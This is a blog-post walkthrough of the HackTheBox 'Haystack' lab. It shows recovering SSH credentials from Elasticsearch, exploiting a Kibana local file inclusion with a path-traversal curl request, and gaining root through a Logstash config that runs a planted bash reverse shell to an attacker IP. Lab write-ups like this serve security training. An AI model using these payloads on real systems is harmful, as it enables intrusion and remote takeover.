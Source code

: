 ```yaml
---
layout: post
title:  Haystack
date:   2019-11-08
categories: htb-writeup
---
```


{:.text-centered}
## HAYSTACK@HTB

![Banner](../../../../assets/img/haystack/banner.png){:.image-centered}

Haystack is an easy box from hackthebox. Ok let’s start.
#### Quick Hack:
__User:__  Port Scan > 80/http >download image > run strings > base64 –decode.
9200/http > search in quote db > base64 –decode > user & password > ssh as security > user.txt

__Root:__  security > kibana lfi >rev shell as kibana >/etc/logstash/conf.d> grok filter > put file in /opt/kibana/logstash_*>rev shell as root> root.txt

### US3R
Run nmap to find open ports. Nmap will show result like this:
![nmap scan](../../../../assets/img/haystack/nmap.png){:.image-left}
We have open ports; 22 is ssh, 80 is http, 9200 also http. Open 80 in browser and there is picture of needle in haystack, download it, run strings against it. There is a base64 encoded string in the last line,save it in a file and decode it.

![Base64](../../../../assets/img/haystack/string.png){:.image-left}
 
    base64 –decode file.b64.

it is a line in Spanish, use google translator if you don’t know Spanish (the whole box is in Spanish, learning some Spanish is extra gain).
The line says needle in a haystack is the “key”. Keep it; it will help in future.  
Let's look at port 9200. It says it is elasticsearch.

![9200 port](../../../../assets/img/haystack/elasticsearch.png){:.image-left}

Run gobuster in the background on port 9200.

    gobuster dir –u http://10.10.10.115:9200/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt
 
![gobuster](../../../../assets/img/haystack/gobuster.png){:.image-left}

Let’s look at those urls. It dumps some data in Spanish, not very useful. Go for elasticsearch and ELK stash 
[documentation](https://www.elastic.co/what-is/elk-stack) and try to figure out how to dump data from the database. After some study I found this search can help to pass query:
    
    http://10.10.10.115:9200/_search?q=

 We found “clave” (key in spanish) in the needle image, so let’s do this:

    http://10.10.10.115:9200/_search?q=quote:clave

![key](../../../../assets/img/haystack/clave.png){:.image-left}
 
There are two base64 encoded strings, decode it. It is
>  user:security  
> pass:spanish.is.key

Login into ssh with those credentials, and get user flag.

![user](../../../../assets/img/haystack/ssh.png){:.image-left}
 

### R00T
Now run linenum to enumerate the box. Look closely, logstash is running as root that is not normal, it should run as logstash. But user security can’t read write logstash config files but kibana can do that. So, not let’s try to be kibana. 
Search on google for kibana vulnerabilities, and you will find LFI (local file inclusion) vulnerability
[Read more](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/)
The system is running node.js so download a js reverse shell payload and put it into /tmp folder.

![shell](../../../../assets/img/haystack/payload.png){:.image-left}

Now run this:

    curl “http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/rev.js”

Set a netcat listener on 9001, as per script, you will get a reverse shell as kibana (you may not a get a shell sometimes and it is frustrating, form url properly or change name of the .js file and try again, it will work).
 
![kibana](../../../../assets/img/haystack/kibana.png){:.image-left}

Now go to 

    etc/logstash/conf.d 

folder, there are 3 files, input.conf, filter.conf and output.conf. 
 
![config files](../../../../assets/img/haystack/conf.d.png){:.image-left}

These files say a file in /opt/kibana with name logstash_* will be executed as root user if it is structured properly. Create a file in /opt/kibana with name logstash_hello :

``` sh
echo ‘Ejecutar comando : bash –i >& /dev/tcp/10.10.15.44/9005 0>&1’ > /opt/kibana/logstash_hello
```
Set a netcat listener and wait a while; get the reverse shell as root.  That’s it. (ooh, I lost that screenshot, a I don’t want to do this annoying box again!!)
Hope you enjoyed; Happy Hacking.